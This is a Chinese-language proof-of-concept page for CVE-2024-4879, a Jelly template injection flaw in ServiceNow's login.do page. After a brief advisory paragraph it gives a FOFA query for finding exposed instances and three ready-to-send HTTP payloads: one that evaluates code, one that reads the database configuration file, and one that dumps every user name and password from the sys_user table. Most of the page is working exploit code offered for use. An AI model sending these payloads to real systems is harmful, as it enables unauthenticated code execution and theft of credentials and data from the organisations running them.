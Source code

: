 ## ServiceNow-UI存在Jelly模板注入漏洞(CVE-2024-4879)

ServiceNow已经解决了在多伦多和华盛顿特区发布的Now Platform版本中输入验证漏洞的问题。这一漏洞可能使未经身份验证的用户能够在Now Platform的上下文中远程执行代码。侧通道ServiceNow对托管实例应用了更新，并向合作伙伴和自助客户发布了更新。以下是解决漏洞的补丁程序和快速修复方案。如果您尚未这样做，我们建议您尽快应用与您实例相关的安全补丁。

## fofa

```yaml
app="servicenow-Products"
```

## poc

```shell
GET /login.do?jvar_page_title=<style><j:jelly xmlns:j="jelly" xmlns:g='glide'><g:evaluate>gs.addErrorMessage(7*7);</g:evaluate></j:jelly></style> HTTP/1.1
Host: 
```

![image-20240712235518735](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407122359842.png)

### 读取数据库配置文件

```shell
GET /login.do?jvar_page_title=<style><j:jelly xmlns:j="jelly:core" xmlns:g='glide'><g:evaluate>z=new Packages.java.io.File("").getAbsolutePath();z=z.substring(0,z.lastIndexOf("/"));u=new SecurelyAccess(z.concat("/co..nf/glide.db.properties")).getBufferedReader();s="";while((q=u.readLine())!==null)s=s.concat(q,"\n");gs.addErrorMessage(s);</g:evaluate></j:jelly></style> HTTP/1.1
Host: 
```

![image-20240712235342615](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407130000368.png)

![image-20240712235455652](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407130000443.png)

### 读取密码

```shell
/login.do?jvar_page_title=<style><j:jelly xmlns:j="jelly" xmlns:g='glide'><g:evaluate>gr=new GlideRecord("sys_user");gr.query();s="";while(gr.next())s=s.concat(gr.user_name," : ",gr.user_password,"<br/>");gs.addErrorMessage(s);</g:evaluate></j:jelly></style>
```

![image-20240713000223133](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202407130002183.png)

## 漏洞来源

- https://www.assetnote.io/resources/research/chaining-three-bugs-to-access-all-your-servicenow-data